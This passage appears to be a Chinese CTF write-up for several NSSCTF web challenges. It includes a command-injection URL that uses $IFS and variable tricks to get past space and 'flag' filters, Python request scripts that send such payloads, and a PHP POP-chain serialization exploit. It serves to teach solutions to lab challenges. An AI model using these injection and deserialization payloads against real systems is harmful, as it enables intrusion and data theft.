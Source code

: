 ## 13.[NSSCTF 2022 Spring Recruit]ezgame

略。

## 14.[GXYCTF 2019]Ping Ping Ping

 \$IFS字符拼接绕过。

```url
http://node4.anna.nssctf.cn:28030/?ip=127.0.0.1;q=g;cat$IFS$9fla$q.php
```

“\$IFS”为Linux系统默认分隔符，可替代空格。\$1~\$9代表参数，这里为空，可以将IFS与后面字符串分割，防止识别为一个变量名。绕过“flag”则重新定义变量绕过。

```python
import requests,time
payload1='http://node4.anna.nssctf.cn:28030/?ip=127.0.0.1;q=g;cat$IFS$9fla$q.php'
response1=requests.get(payload1)
time.sleep(4)
print(response1.text[-63:-19])
```

## 15.[LitCTF 2023]Follow me and hack me

```python
import requests
payload1={'Challenge':'i\'m_c0m1ng'}
response1=requests.post('http://node5.anna.nssctf.cn:28170/?CTF=Lit2023',data=payload1)
print(response1.text[-203:-159])
```

## 16.[SWPUCTF 2021 新生赛]pop

找链子打。

```php
<?php
    class w44m{
        private $admin='w44m';
        protected $passwd='08067';
    }
    class w22m{
        public $w00m;
    }
    class w33m{
        public $w00m;
        public $w22m;
    }
    $a=new w22m();
    $b=new w33m();
    $c=new w44m();
    $a->w00m=$b;
    $b->w00m=$c;
    $b->w22m='Getflag';
    echo urlencode(serialize($a));
?>
```
